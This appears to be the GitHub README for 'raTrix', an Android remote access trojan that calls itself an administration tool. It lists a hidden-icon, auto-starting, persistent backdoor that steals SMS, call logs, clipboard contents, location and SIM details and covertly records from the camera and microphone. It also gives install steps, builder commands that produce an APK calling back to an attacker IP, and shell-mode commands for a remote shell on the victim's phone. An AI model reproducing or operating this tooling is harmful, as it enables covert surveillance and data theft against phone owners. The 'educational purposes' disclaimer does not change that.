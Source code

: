 <img src="https://github.com/MrpasswordTz/raTrix/blob/main/images/2.jpg" alt= 'ratrix picture' >

# raTrix 🐀 
raTrix is a powerful Android administration tool designed for Linux systems. It utilizes Python on the client-side and Java on the server-side to provide a robust and efficient management solution.

# FEATURE FOR raTrix
<ul>
  <li>light apk</li>
  <li>shell and build mode</li>
  <li>it run background 24hrs</li>
  <li>it show device info,MAC Adress, device ip, simcard info</li>
  <li>Auto start backdoor</li>
  <li>sms viewing and callLogs viewing</li>
<li>all port-forwading</li>
  <li>microphone checking</li>
  <li>camera checking</li>
  <li>full persistent</li>
  <li>Easy To use</li>
  <li>no icon</li>
</ul>

 # installation on termux
```
pkg update
pkg upgrade
pkg install git
pkg install python python2 python3
pkg install openjdk-17
pkg install aapt
git clone https://github.com/MrpasswordTz/raTrix.git
cd raTrix
pip install -r requirements.txt 
```

# usages building mode
```
python3 raTrix.py --build [models]
modules:
 -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)

EXample: python3 raTrix.py --build -i 192.168.16.216 -p 443 -o sudo.apk
```

# Usages SHELL mode
```
Usage:
  python3 raTrix.py --shell [modules]
  modules:
    -i, --ip                Listner IP address
    -p, --port              Listner port number

Example: python3 raTrix.py --shell -i 192.168.16.216 -p 443
```
# Commands in shell mode
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
# Additional information in ngrok conf
```
Usage:
  python3 raTrix.py --build --ngrok [module]
  module:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -o, --output            Name for the apk file (optional by default its set to "karma.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

# Examples 
<b>in buliding mode(generating apk)</b>
```
python3 raTrix.py -i 192.169.120.34 -p 8080 -o sudo.apk
```

<b>in shell mode (listening)</b>
```
python3 raTrix.py --shell -i 192.169.120.34 -p 8080
```

# Disclaimer
This tool is only for educational purposes, i will not be responsible for any Damage

<h1>TOOL IS UNDER CONSTRUCTION</h1>
